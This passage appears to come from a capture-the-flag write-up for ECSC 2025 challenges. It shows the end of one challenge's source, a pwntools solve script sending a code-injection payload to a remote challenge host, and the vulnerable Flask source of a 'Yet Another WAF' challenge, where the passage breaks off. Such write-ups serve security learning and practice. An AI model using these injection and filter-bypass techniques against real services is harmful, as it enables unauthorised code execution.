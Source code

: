 ```python
}}
"""
    name = "test"
    source = f"/tmp/{name}.c"
    outfile = f"/tmp/{name}"
    open(source, 'w').write(template)
    os.system(f"export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin && gcc {source} -o {outfile}")
    os.system(f"{outfile}")
    os.remove(source)
    os.remove(outfile)


main()
```

In this case we can only work with the function argument parameter and have to make it somehow invoke function f(). After a lot of trial an error and consulting with some LLMs I came out with this strange thing.

**Solve:**

```python
from pwn import *


conn = remote('caller.ecsc25.hack.cert.pl', 5212)


payload = "x[(f(),1)]"

conn.sendline(payload)
conn.interactive()

```


## 10. Yet Another WAF

**Source:**

```python
import json
import requests
from flask import Flask, request, abort

app = Flask(__name__)


@app.route('/run', methods=['POST'])
def run():
    payload = json.loads(request.data)
    if 'cmd' in payload:
        command = payload['cmd']
        if command != 'id':
            abort(403)
        else:
            payload = f'{{"content":{request.data.decode()}}}'
            print(payload)
            r = requests.post("http://runner/api/run", headers={"Content-Type": "application/json"}, data=payload)
            return r.content
    else:
        abort(404)


```